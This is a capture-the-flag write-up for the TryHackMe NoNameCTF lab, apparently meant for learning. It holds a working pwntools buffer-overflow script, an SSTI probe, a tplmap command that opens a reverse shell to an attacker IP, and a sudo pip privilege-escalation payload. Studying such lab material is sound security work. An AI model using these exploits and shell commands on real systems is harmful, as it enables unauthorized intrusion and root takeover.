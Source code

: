 # THM NoNameCTF Writeup
## Enumeration
```
nmap -sCV -oN nmap/NoNameCTF <ip>
```
### Result
```
Nmap scan report for 10.10.107.235
Host is up (0.36s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:57:3f:cc:86:39:04:3b:f0:e6:46:bf:72:51:64:0b (RSA)
|   256 81:05:75:ad:78:83:62:b2:06:41:5b:e5:a5:a9:82:4d (ECDSA)
|_  256 0f:8d:0e:19:e9:c7:cc:14:39:e9:34:60:5c:f7:aa:fe (ED25519)
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
146/tcp   filtered iso-tp0
2222/tcp  open     EtherNetIP-1?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, NULL, RPCCheck, SSLSessionReq: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|   GetRequest, HTTPOptions, Help, RTSPRequest: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|     Wrong option
|_    Good bye
6666/tcp  filtered irc
8652/tcp  filtered unknown
9090/tcp  open     http          Tornado httpd 6.0.3
|_http-title: Site doesn't have a title (text/plain).
|_http-server-header: TornadoServer/6.0.3
49175/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.92%I=7%D=11/8%Time=618932E7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,7B,"Welcome\x20to\x20the\x20NoNameCTF!\r\nChoose\x20an\x20action:\r\
<SNIP>
\n>\x20login:\x202\r\n>\x20get_secret_directory:\x203\r\n>\x20store
SF:_your_buffer:\x204\r\n");

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We got 4 open ports, 22,80,2222,9090. Let's take a look at it one by one. First, nothing special about port 22. Next, port 80 is running website, must be there for a reason. Third, Port 2222 looks like running a unknown service, leave it first. Last, port 9090 running website using Tornado with version 6.0.3.

### Port 80
Looking at port 80 website's source code, we found a potential hint. Looks like hinting about buffer overflow. 

![3f64f75b1b6315cc94044f566a13328e.png](_resources/3f64f75b1b6315cc94044f566a13328e.png)

### Port 2222
Looking at port 2222, we can try connect to it via netcat:
```
nc <ip> 2222
```
Looks like it is providing some services. The **get_secret_directory** looks interesting but it was prompting us to login before using that service. We will come back to this later.

![c54ca29dcc6d143e6046d2661b512fe7.png](_resources/c54ca29dcc6d143e6046d2661b512fe7.png)

### Port 9090
Upon browsing to port 9090 website, we've encountered an error.

![6667948cfd36e9a2914a933b392fe3b9.png](_resources/6667948cfd36e9a2914a933b392fe3b9.png)

For now we have gathered some initial information about each open ports. Let's do a quick summarize, port 80 source code indicating we might need to do buffer overflow, since buffer overflow less likely will be happen in websites, let's now focus on port 2222.

### Exploiting port 2222
Based on the port 80 source code hint given, we can guess that vulnerable point was **store_your_buffer** functionality and the amount of buffer to overflow it most likely will be greater than 1000. After interacting a while with it, the flow to exploit it to get secret directory probably is:
```
Register an account -> Login -> Buffer Overflow on store_your_buffer -> get_secret_directory
```

I have wrote a script to automate this process:

```
#!/usr/bin/env python3

from pwn import *
import argparse
import pdb

parser = argparse.ArgumentParser(description="BOF Exploit")
parser.add_argument("host", help="The host IP address")
parser.add_argument("port", help="The host port")
args=parser.parse_args()

# Connection
target = remote(args.host, args.port)

# Registration
print("[+] Default hardcoded credential: anonymous:anonymous123")
print("[+] Registering using default hardcoded credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'1')
target.recvuntil(b'Enter an username:')
target.sendline(b'anonymous')
target.recvuntil(b'Enter a password:')
target.sendline(b'anonymous123')

# Login
print("[+] Loging using registered credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'2')
target.recvuntil(b'Username:')
target.sendline(b'anonymous')
target.recvuntil(b'Password:')
target.sendline(b'anonymous123')

# BOF
print("[+] Buffer Overflowing 'store_your_buffer' functionality")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'4')
target.recvuntil(b'Enter your buffer:')
buffer = b"A"*1500
target.sendline(buffer)

# Get secret
print("[+] Getting secret directory")
target.recvuntil(b'store_your_buffer: 4\r\n')
target.sendline(b'3')
print("[*] Success !!!\n")
print(target.recvline().decode("utf-8"))
```

Basically the script follows the flow i mentioned above and overflow the vulnerable functionality with 1500 bytes. We just need to supply the machine IP and port to execute this exploit.

```
$ python exploit.py 10.10.107.235 2222
[+] Opening connection to 10.10.107.235 on port 2222: Done
[+] Default hardcoded credential: anonymous:anonymous123
[+] Registering using default hardcoded credential
[+] Loging using registered credential
[+] Buffer Overflowing 'store_your_buffer' functionality
[+] Getting secret directory
[*] Success !!!

My secret in the port 9090 is: /xxxxx

[*] Closed connection to 10.10.107.235 port 2222
```

Yay ! Now we got the secret directory.
***
## Initial Foothold
Let's browse to port 9090 website with the secret directory:

![6ede18c18e56f998156807e30828299c.png](_resources/6ede18c18e56f998156807e30828299c.png)

Nothing interesting, how about the source code?
![32599adf76a4a76c570d55a65701de96.png](_resources/32599adf76a4a76c570d55a65701de96.png)

Yes ! We got a parameter hidden in source code. After some testing, looks like it was vulnerable to Server Side Template Injection (SSTI):
```
http://10.10.107.235:9090/xxxxx/?hackme={{7*7}}
```
![b0ddea2d264559572693e4cc6587e728.png](_resources/b0ddea2d264559572693e4cc6587e728.png)

Without further ado, let's spawn a reverse shell using **tplmap**:
#### Notes: If you have problem installing tplmap, take this: [solution](https://blog.csdn.net/weixin_46041615/article/details/121111050), you're welcome
```
python2 tplmap.py -u http://10.10.107.235:9090/xxxxx/?hackme= --reverse-shell 10.13.28.126 4567
```

Setup netcat to listen on certain port:
```
nc -lvnp 4567
```

Execute the tplmap's command and BOOM ! Reverse shell achieved !
![ac8ecc09a421a28a018da587f359cb13.png](_resources/ac8ecc09a421a28a018da587f359cb13.png)
***
## Privilege Escalation
> Classic <3 - GTFOBins
```
sudo -l
```
![abacfee0f5d6a41063588edd829a7efb.png](_resources/abacfee0f5d6a41063588edd829a7efb.png)

### Exploit 
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo /usr/bin/pip install $TF
```

### Rooted !
![1ca5eba662366c1f2fcc22fbe8148980.png](_resources/1ca5eba662366c1f2fcc22fbe8148980.png)


To whoever reading this till here, thank you so much and have a nice day !
